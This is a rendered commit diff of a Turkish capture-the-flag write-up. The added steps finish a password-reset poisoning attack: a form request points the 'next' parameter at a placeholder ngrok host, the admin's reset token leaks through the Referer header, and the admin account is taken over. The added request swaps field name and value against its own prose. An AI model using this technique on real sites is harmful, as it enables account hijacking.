

Before and after one commit to bayraksende/bayraksende2025, a Markdown page: final/IsvicreCakisi/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/final/IsvicreCakisi/README.md
+++ b/final/IsvicreCakisi/README.md
@@ -101,7 +101,7 @@ Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı a
 
 Şifre sıfırlama bağlantılarının formatını inceleyelim:
 
-`http://soru.bayraksende.com:2999/reset-password?token=ca208519-0339-4ce4-89a3-cbdc21c7f3c5&next=http://soru.bayraksende.com:2999/login`
+`http://soru.bayraksende.com:2999/reset-password?token=fc8eba6f-dfb3-4776-9a4c-503417303a78&next=http://soru.bayraksende.com:2999/login`
 
 
 Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
@@ -139,3 +139,26 @@ Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örne
 
 
 `https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`
+
+Şimdi, bu url'yi isteğimizin içine koyalım, ve kullanıcı adı kısmını admin ile değiştirelim:
+
+
+```formdata
+------WebKitFormBoundarym7tRlaLaR4ztC8jN
+Content-Disposition: form-data; name="admin"
+
+kullanici_adi
+------WebKitFormBoundarym7tRlaLaR4ztC8jN
+Content-Disposition: form-data; name="next"
+
+https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
+------WebKitFormBoundarym7tRlaLaR4ztC8jN--
+```
+
+İsteğimizi gönderip sunucu konsolumuza baktığımzda, aşağıdakine benzer bir çıktı gelecektir:
+
+
+`2025-05-30T12:34:56.789Z - IP: ::ffff:127.0.0.1, Referer: http://soru.bayraksende.com:2999/reset-password?token=fa18d596-6557-47c0-b148-bed4cb96de30&mext=...`
+
+
+Bu url'nin uuid token'a olan kısmını alarak ziyaret ettiğimizde, admin kullanıcısı için şifre sıfırlama erişimi elde etmekteyiz. Şifremizi sıfırlayıp yeni şifremiz ile giriş yapabiliriz.
````
